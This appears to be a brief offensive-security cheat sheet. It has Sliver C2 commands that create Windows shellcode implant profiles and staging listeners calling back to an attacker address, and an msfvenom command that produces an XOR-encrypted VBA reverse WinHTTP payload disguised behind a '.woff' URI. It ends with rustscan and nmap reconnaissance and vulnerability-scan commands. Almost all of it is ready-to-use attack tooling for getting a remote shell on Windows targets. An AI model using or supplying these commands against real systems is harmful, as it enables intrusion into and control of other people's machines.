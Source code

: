 ## Sliver Setup
// for standard loader
profiles new --mtls 1.2.3.4 --format shellcode win-shellcode
stage-listener --url http://1.2.3.4:8443 --profile win-shellcode
mtls

// for meterpreter stager
profiles new --mtls 1.2.3.4 --format shellcode win-shellcode
stage-listener --url http://1.2.3.4:8443 --profile win-shellcode --prepend-size
mtls

// for vba
msfvenom --payload windows/x64/custom/reverse_winhttp LHOST=tun0 PORT=8443 LURI=/hello.woff EXITFUNC=thread --format vbapplication --encrypt xor --encrypt-key 'DEAD'


## Basic Enum
rustscan -a <tgt_ip> --ulimit 5000
ports=<ports>
nmap -Pn -p$port -A -T5 -oN scan.txt <tgt_ip>
sudo nmap -sV -p$ports--script "vuln"



